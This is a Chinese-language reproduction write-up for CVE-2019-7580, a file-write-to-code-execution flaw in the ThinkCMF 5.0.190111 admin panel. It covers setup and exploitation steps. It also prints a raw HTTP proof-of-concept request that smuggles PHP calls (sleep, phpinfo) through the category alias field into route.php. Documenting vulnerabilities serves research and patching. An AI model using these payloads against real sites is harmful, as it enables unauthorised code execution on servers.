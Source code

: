 ## CVE-2019-7580 thinkcmf-5.0.190111后台任意文件写入导致的代码执行  

# 0x00 环境搭建  

首先去thinkcmf下载5.0的最新版  
https://github.com/thinkcmf/thinkcmf/archive/5.0.190111.zip  
切换到web根目录下，比如/var/www，然后新建一个目录：ThinkCMF-5.0.190111  
把除public目录外的文件都移动到ThinkCMF-5.0.190111下。然后修改index.php，将其中的  

```
define('CMF_ROOT', __DIR__ . '/../');
```

修改为  

```
define('CMF_ROOT', __DIR__ . '/ThinkCMF-5.0.190111/');
```

然后一步步完成安装。  
参考：https://blog.csdn.net/youaregoo/article/details/82219722  

# 0x01 利用过程：  

后台登录状态下，  
1、将payload插入数据库并读取然后写入data/conf/route.php文件  

```
POST /portal/admin_category/addpost.html
parent_id=0&name=111&alias=a'=>array(%22%22)%2csleep(5)%2c'b
```

2、然后访问：  

```
/portal/admin_category/index.html
```

触发  

```
include data/conf/route.php  
```

操作，执行payload。下图以执行sleep(5)作为演示。  



## POC  

```raw
POST /portal/admin_category/addpost.html HTTP/1.1
Host: 192.168.170.209
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2
```

